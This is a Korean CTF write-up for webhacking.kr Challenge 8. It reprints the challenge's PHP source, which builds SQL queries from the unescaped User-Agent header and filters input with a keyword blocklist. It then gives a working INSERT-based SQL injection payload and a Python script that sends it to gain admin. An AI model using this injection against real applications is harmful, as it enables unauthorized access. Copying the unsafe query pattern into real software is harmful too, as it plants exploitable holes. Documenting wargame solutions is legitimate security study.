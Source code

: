 # Write-Up
## 취약점 확인
index.phps 를 읽어보면 다음과 같은 소스가 있습니다.

```
<html>
<head>
<title>Challenge 8</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
</style>
</head>
<body>
<br><br>
<center>USER-AGENT

<?

$agent=getenv("HTTP_USER_AGENT");
$ip=$_SERVER[REMOTE_ADDR];

$agent=trim($agent);

$agent=str_replace(".","_",$agent);
$agent=str_replace("/","_",$agent);

$pat="/\/|\*|union|char|ascii|select|out|infor|schema|columns|sub|-|\+|\||!|update|del|drop|from|where|order|by|asc|desc|lv|board|\([0-9]|sys|pass|\.|like|and|\'\'|sub/";

$agent=strtolower($agent);

if(preg_match($pat,$agent)) exit("Access Denied!");

$_SERVER[HTTP_USER_AGENT]=str_replace("'","",$_SERVER[HTTP_USER_AGENT]);
$_SERVER[HTTP_USER_AGENT]=str_replace("\"","",$_SERVER[HTTP_USER_AGENT]);

$count_ck=@mysql_fetch_array(mysql_query("select count(id) from lv0"));
if($count_ck[0]>=70) { @mysql_query("delete from lv0"); }


$q=@mysql_query("select id from lv0 where agent='$_SERVER[HTTP_USER_AGENT]'");

$ck=@mysql_fetch_array($q);

if($ck)
{ 
echo("hi <b>$ck[0]</b><p>");
if($ck[0]=="admin")

{
@solve();
@mysql_query("delete from lv0");
}


}

if(!$ck)
{
$q=@mysql_query("insert into lv0(agent,ip,id) values('$agent','$ip','guest')") or die("query error");
echo("<br><br>done!  ($count_ck[0]/70)");
}


?>

<!--

index.phps

-->

</body>
</html>
```

`$q=@mysql_query("insert into lv0(agent,ip,id) values('$agent','$ip','guest')") or die("query error");
echo("<br><br>done!  ($count_ck[0]/70)");`

위의 코드에서 취약점이 발생합니다.


User-Agent 값으로 쿼리문을 전송을 하니, User-Agent 를 이용하여서 인젝션을 해주면 될 것 같습니다.

## 풀이
```
$q=@mysql_query("select id from lv0 where agent='$_SERVER[HTTP_USER_AGENT]'");

$ck=@mysql_fetch_array($q);

if($ck)
{ 
echo("hi <b>$ck[0]</b><p>");
if($ck[0]=="admin")

{
@solve();
@mysql_query("delete from lv0");
}


...(생략)


if(!$ck)
{
$q=@mysql_query("insert into lv0(agent,ip,id) values('$agent','$ip','guest')") or die("query error");
echo("<br><br>done!  ($count_ck[0]/70)");
}
```


여기서 위에 코드를 보면 id 가 admin 이여야 조건이 참이되기 때문에 이에 유의해서 쿼리문을 짜면 다음과 같이 나옵니다.


1. `test', '123', 'admin'), ('test2`
2. `test`


1번 쿼리는 admin 을 체크하는 조건문에서 맞지 않으므로 건너뛰고
insert into 문을 실행하여 다음과 같이 쿼리가 들어가게 됩니다.


`insert into lv0(agent,ip,id) values('test','123','admin'), ('test2', 'ip', 'guest')`


그러면 위와 같은 쿼리문이 실행되어
각 agent, ip, id 컬럼에는 (test, 123, admin) 와 (test2, ip, guest) 2개가 들어가게 됩니다.

그리고 다시 user-agent 에 2번 쿼리를 넣어서 보내면 다음과 같이 쿼리가 실행됩니다.

`select id from lv0 where agent='test'`

그럼 test의 id값이 admin 이였으니 그 값을 리턴하게 되고 참이되어
문제가 해결됩니다.


## Solve.py Source Code
```
import requests

url = "http://webhacking.kr/challenge/web/web-08/index.php"

headers = {
	"user-agent":"test', '123', 'admin'), ('test2",
    "cookie":"PHPSESSID=1f119738c8025cf9fd0d13a3c8436b3c"
}

req = requests.get(url, headers=headers)
print req.text

headers = {
	"user-agent":"test",
    "cookie":"PHPSESSID=1f119738c8025cf9fd0d13a3c8436b3c"
}

req = requests.get(url, headers=headers)
print req.text
```
